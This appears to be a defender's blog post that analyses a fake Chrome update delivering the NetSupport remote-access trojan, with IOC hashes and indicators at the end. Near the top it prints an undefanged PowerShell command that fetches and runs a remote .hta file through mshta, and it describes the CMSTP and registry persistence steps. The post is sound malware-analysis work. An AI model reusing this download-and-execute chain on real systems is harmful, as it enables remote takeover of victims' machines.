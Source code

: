 ```yaml
---
layout: post
title: "Google Chrome Update? More Like Infected With Netsupport Rat!​"
categories: blog
---
```


Today we received an alert about and endpoint running a suspicious commandline:

[![7-31-23_1.png](/assets/images/7-31-23/7-31-23_1.png)](/assets/images/7-31-23/7-31-23_1.png)

This commandline downloaded a .lnk file, inside the .lnk file was the following command:

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\\*2\\\m*h*a*e ('http'+'s://alexiakombou.com/wp-content/uploads/2021/12/EN-localer.'+'hta')

[![7-31-23_2.png](/assets/images/7-31-23/7-31-23_2.png)](/assets/images/7-31-23/7-31-23_2.png)


I was surprised to see davclnt.dll in use here. After some further investigation, we discovered the root of the rundll32 command was a fake Google Chrome update page that the user encountered. When they clicked to update, a .url file was downloaded

[![7-31-23_1-1.png](/assets/images/7-31-23/7-31-23_1-1.png)](/assets/images/7-31-23/7-31-23_1-1.png)

When launched, this prompted Window to execute rundll32,davclnt.dll and connect to the malicious ip to download the .lnk file.
The contents of the .lnk file were the powershell command to run mshta.

.hta files are fun, a lot of opportunity for some shenanigans. Let's see what's inside.

[![7-31-23_3.png](/assets/images/7-31-23/7-31-23_3.png)](/assets/images/7-31-23/7-31-23_3.png)

Mhmm.

[![7-31-23_4.png](/assets/images/7-31-23/7-31-23_4.png)](/assets/images/7-31-23/7-31-23_4.png)

Yup.

[![7-31-23_5.png](/assets/images/7-31-23/7-31-23_5.png)](/assets/images/7-31-23/7-31-23_5.png)

Definitely valid business use case here!

This .hta file uses some number/string character substitution and a string of eval statements to run the variable 'res' that is set on line 63.

Inside the parent Execute statement is an incredible amount of quotes.

[![7-31-23_6.png](/assets/images/7-31-23/7-31-23_6.png)](/assets/images/7-31-23/7-31-23_6.png)

The massive amount of double quotes will be canceled out, and serve as a simple method to defeat analysis and attempt to evade EDR tools. It also obfuscates the true nature of the eval statements by hiding the name of the variable that the script intends to execute.

So since this is vbscript, the easiest way to pull out the code hidden in here is to change the Execute statement to write to a file instead of actually executing the code in 'res'.

[![7-31-23_7.png](/assets/images/7-31-23/7-31-23_7.png)](/assets/images/7-31-23/7-31-23_7.png)


Now we can simply double click the .hta file, and let Windows execute it with mshta, as expected, and the .hta file will no longer execute the malicious code, but dump it to disk.

[![7-31-23_8.png](/assets/images/7-31-23/7-31-23_8.png)](/assets/images/7-31-23/7-31-23_8.png)

Better!

Still hard to read, but the most interesting bit is clearly in the middle with the encoded powershell command.

The 'cTE' function is to create char codes for line 20, which converts to 'wscript.shell' and then invokes the powershell script in line 21.
The rest of this code looks useless!

To decode the powershell, I will stick it in vscode and reformat it(replacing the semicolons with new lines), then stick it into ise.

The first line is a large base64, encrypted, compressed blob.
The rest of the code looks like this

[![7-31-23_9.png](/assets/images/7-31-23/7-31-23_9.png)](/assets/images/7-31-23/7-31-23_9.png)

Nothing special here, decrypting, converting and then decompressing the payload. 
Now we can get this second payload by simple changing line 24 to:

[![7-31-23_10.png](/assets/images/7-31-23/7-31-23_10.png)](/assets/images/7-31-23/7-31-23_10.png)

This will give us the second powershell script, which is another long oneliner, so back into VSCode to re-format and then back to ISE.

[![7-31-23_11.png](/assets/images/7-31-23/7-31-23_11.png)](/assets/images/7-31-23/7-31-23_11.png)

[![7-31-23_12.png](/assets/images/7-31-23/7-31-23_12.png)](/assets/images/7-31-23/7-31-23_12.png)


This is fun.

I went ahead and did some further decoding/renameing to make the scripts intentions a little more clear.

Function 1 simply writes all bytes supplied to it to a path also supplied to it.

[![7-31-23_13.png](/assets/images/7-31-23/7-31-23_13.png)](/assets/images/7-31-23/7-31-23_13.png)

Function 2 does a few things.

It takes a path in appdata, checks if it ends with '.zip' and if it does, it unzips the .zip, sets a variable to 1 and then deletes the zip file in appdata. 
If the filename does NOT end with '.zip', it checks if the previous variable is equal to 1, if it is, it moves the current file into the extracted zip folder path. It then converts some text to base64 and stores it in a variable. Then it take some base64 text and decodes it, concatenating it with the start of a powershell command. Finally it will convert all of this to base 64 and run it via powershell.

Whew that was a mouthful.

We'll come back to that script in a moment, let's finish checking the functions on the second script.

[![7-31-23_14.png](/assets/images/7-31-23/7-31-23_14.png)](/assets/images/7-31-23/7-31-23_14.png)

This first function is a wrapper to download a file.
The second is for converting the characters in the final function.

[![7-31-23_15.png](/assets/images/7-31-23/7-31-23_15.png)](/assets/images/7-31-23/7-31-23_15.png)

This final function sets variable for a zip file, then checks to see if that zip file exists. If it doesn't, it users the 2 previous functions to decode the url and download the zip.
Next it does the same for a .exe file.
Then it runs the final function.

In the Else statements we can see the large function come into play. Let's look at that tertiary script from earlier.

[![7-31-23_16.png](/assets/images/7-31-23/7-31-23_16.png)](/assets/images/7-31-23/7-31-23_16.png)

Loading user32.dll into memory

[![7-31-23_17.png](/assets/images/7-31-23/7-31-23_17.png)](/assets/images/7-31-23/7-31-23_17.png)

This function is designed to write contents to a custom .inf file, 'CMSTP.inf'.
Of note is the powershell command string, this will contain registry settings and scheduled task settings to run the 'client32.exe' file downloaded.

[![7-31-23_18.png](/assets/images/7-31-23/7-31-23_18.png)](/assets/images/7-31-23/7-31-23_18.png)

Finally, the script creates functions to get a handle to a running process, and then set the window to active, runs the first function, executes the inf file and then keeps it running if it is terminated.

CMSTP.inf is designed to be executed and run the encoded powershell command.

[![7-31-23_19-1.png](/assets/images/7-31-23/7-31-23_19-1.png)](/assets/images/7-31-23/7-31-23_19-1.png)

When run, this will run the following powershell

[![7-31-23_20-1.png](/assets/images/7-31-23/7-31-23_20-1.png)](/assets/images/7-31-23/7-31-23_20-1.png)

Effectively this will add the client32.exe to the registry, set it to launch via a scheduled task and then start the process.

So what is client32.exe?

[![7-31-23_19.png](/assets/images/7-31-23/7-31-23_19.png)](/assets/images/7-31-23/7-31-23_19.png)

Netsupport RAT!

And the zip folder was kind enough to inclued a .ini file with the C2 IP hardcoded for us

[![7-31-23_20.png](/assets/images/7-31-23/7-31-23_20.png)](/assets/images/7-31-23/7-31-23_20.png)

Using this, we can easily search our environment for this IP, and hashes from both client32.exe and CreationTools.zip. Luckily, Crowdstirke prevent this chain from fully executing at the .hta stage, and a search confirmed these files never made it to disk.


# IOCs:

Name                  | Sha256 Hash           |
--------------------- | --------------------- |
​En-Localer.hta        | 6318e4335b1098781e35d7464d20b7f92015e86f21c5aad3147e18d6bf9bba7d |
​silentupdater.lnk     | ​59b392a0ff9a3ff064b5a4ab90de5b68c758429280c612fd08f9399475d3108d |
silent.url            | ​508a5051f1e98822ae71f164700e9e5dc087cb6fbe7df1a7e9fd3403981bde84 |
​CMSTP.inf             | ​3e44025d47415dcb497c4f894f94263bf2658bb0c20bc43ca40950207794cf08 |
​CreationTools.zip     | ​c45bf5155cdd7c9a4017b818a54b332070121819a7866c58c3cfd9d684c13a20 |
​client32.exe	       | ​49a568f8ac11173e3a0d76cff6bc1d4b9bdf2c35c6d8570177422f142dcfdbe3 |



## Host based indicators:
### Directories:
C:\Users\USER\AppData\Roaming\CreativeTools

C:\Users\USER\Appdata\Local\Temp

### Registry Keys:
HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command -Value C:\Users\USER\AppData\Roaming\CreativeTools\client32.exe

## Network based indicators:

### TCP ports:
443

### URLs:
hxxps://alexiakombou[.]com/wp-content/uploads/2022/01/downloader(updchr(V104.215.214)silent.url

hxxps://alexiakombou[.]com/wp-content/uploads/2021/12/EN-localer.hta

185.252.179.64@80 hxxp://185.252.179.64/Downloads/silentupdater-chr(v105).lnk